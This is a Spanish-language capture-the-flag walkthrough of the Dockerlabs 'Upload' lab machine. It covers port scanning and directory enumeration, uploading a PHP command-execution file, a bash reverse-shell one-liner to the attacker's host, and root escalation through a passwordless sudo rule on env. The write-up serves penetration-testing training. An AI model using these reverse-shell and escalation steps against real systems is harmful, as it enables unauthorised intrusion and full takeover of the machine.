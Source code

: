 ```yaml
---
title:  "Upload - Dockerlabs"
header:
  teaser:
categories: 
  - CTFs
tags:
  - Dockerlabs
---
```


La máquina **Upload** se puede encontrar en [Dockerlabs](https://dockerlabs.es/) y está catalogada como de nivel muy fácil. Mediante fuzzing, encontraremos un cargador de archivos del que podremos abusar para obtener una reverse shell en la máquina víctima. Para escalar privilegios, podremos aprovechar los permisos que tiene el usuario sobre el binario `/env`.

## Reconocimiento

Comienzo desplegando la máquina docker con el script de auto_deploy. Voy a comprobar que se encuentra activa haciendo un ping.

```shell
ping -c 1 172.17.0.2                                                                                                                    
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.273 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.273/0.273/0.273/0.000 ms
```

El siguiente paso es hacer un nmap para ver que puertos tiene abiertos. Utilizo los siguientes parámetros:

- -p-: Escanear todos los puertos (65535).
- –open: Mostrar solo los puertos abiertos.
- -sS: Realiza un TCP SYN Scan para escanear rápidamente que puertos están abiertos.
- –min-rate 5000: Indicamos que el escaneo no vaya más lento que 5000 paquetes por segundo.
- -vvv: El modo verbose nos muestra la información según se va encontrando.
- -n: No realizar resolución de DNS. Así evitamos que el escaneo dure más tiempo del necesario.
- -Pn: Deshabilitar el descubrimiento de host mediante ping.
- -oG: Exportar el resultado a un fichero en una sola línea para que podamos usar comandos como: grep, awk, sed, etc. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports                                                            

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 12:15 EDT
Initiating ARP Ping Scan at 12:15
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:15, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:15
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:15, 0.76s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000060s latency).
Scanned at 2024-05-28 12:15:56 EDT for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

Solo encuentra 1 puerto abierto: 

- 80 (HTTP)

Ejecuto otro nmap para analizar los servicios y versiones de ese puerto. Los comandos usados son:

- -sCV: Detectar el servicio y aplicar scripts básicos de reconocimiento.
- -p: Indicar los puertos a escanear.
- -oN: Exportar el resultado a un archivo.

```shell
nmap -sCV -p80 172.17.0.2 -oN target                                                                                                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 12:20 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 85.03% done; ETC: 12:20 (0:00:00 remaining)
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.34 seconds
```

Uso whatweb para ver que tecnologías se usan en la web.

```shell
whatweb http://172.17.0.2                                                                                                               
http://172.17.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], Title[Upload here your file]
```

Para enumerar archivos y directorios uso la herramienta dirsearch. Le indico que no me muestre varios códigos de estado HTTP.

```shell
dirsearch -u http://172.17.0.2 --exclude-status 403,404,500,502,400,401                                                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/upload/nmap/reports/http_172.17.0.2/_24-05-28_12-21-37.txt

Target: http://172.17.0.2/

[12:21:37] Starting: 
[12:22:05] 200 -  503B  - /upload.php                                       
[12:22:05] 200 -  404B  - /uploads/                                         
[12:22:05] 301 -  310B  - /uploads  ->  http://172.17.0.2/uploads/          
Task Completed
```

## Análisis de vulnerabilidades

Accedo a la web y encuentro la página que viene por defecto en la instalación de apache.

![Upload 1](/assets/images/2024-05-28-Upload/upload_1.png)

Voy a la ruta de "uploads" que ha encontrado dirsearch, pero veo que está vacía.

![Upload 2](/assets/images/2024-05-28-Upload/upload_2.png)

En el archivo "upload.php " me encuentro con un subidor. Creo un fichero de prueba y lo subo.

![Upload 3](/assets/images/2024-05-28-Upload/upload_3.png)

Compruebo como se ha guardado en /uploads, el cual antes estaba vacío.

![Upload 4](/assets/images/2024-05-28-Upload/upload_4.png)

## Explotación de vulnerabilidades

Voy a crear un payload en php que me permita explotar un RCE utilizando la función shell_exec.

![Upload 5](/assets/images/2024-05-28-Upload/upload_5.png)

Subo el fichero y accedo a él. Usando el parámetro "cmd", introduzco el comando `whoami` y veo como se ejecuta correctamente.

![Upload 6](/assets/images/2024-05-28-Upload/upload_6.png)

El siguiente paso es obtener una reverse shell. Me pongo en escucha con netcat y ejecuto el comando `bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4321 0>%261"` (importante hacer URL encode de & a %26). Consigo obtener acceso al sistema.

```shell
nc -nlvp 4321                                                            
listening on [any] 4321 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37384
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@0c5eb0247473:/var/www/html/uploads$ whoami
whoami
www-data
www-data@0c5eb0247473:/var/www/html/uploads$ 
```
## Escalada de privilegios

Para tener una consola interactiva, hay que hacer un tratamiento de la tty. Ejecuto `script /dev/null -c bash`, hago ***ctrl+z***, escribo ***"stty raw -echo; fg"***, introduzco ***"reset xterm"*** y doy un ***intro***. Con esto he reiniciado la configuración de la terminal.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$
```

La shell todavía no es interactiva del todo. Podemos ver que la variable de entorno $TERM tiene el valor dump y no xterm. Podemos arreglar esto de la siguiente forma. 

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ echo $TERM
dumb
www-data@0c5eb0247473:/var/www/html/uploads$ export TERM=xterm
```

La proporción de la consola no es igual a la de terminal. Miro el tamaño con `stty size`.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ stty size
24 80
```

En la máquina hay 24 filas y 80 columnas, pero en mi kali son 63 filas y 281 columnas. Las modifico para que tengan el mismo espacio.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ stty rows 63 columns 281
```

Reviso información del usuario actual.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Compruebo si el usuario actual tiene algún permiso especial. Veo que puede ejecutar `/usr/bin/env` como root sin necesidad de proporcionar una contraseña.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on 0c5eb0247473:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 0c5eb0247473:
    (root) NOPASSWD: /usr/bin/env
```

Buscando, encuentro en [env-GTFOBins](https://gtfobins.github.io/gtfobins/env/) como obtener una shell como root usando el binario `/env`. Ejecuto `sudo env /bin/sh` y consigo ser usuario root.

```shell
$ sudo env /bin/sh
# whoami
root
```
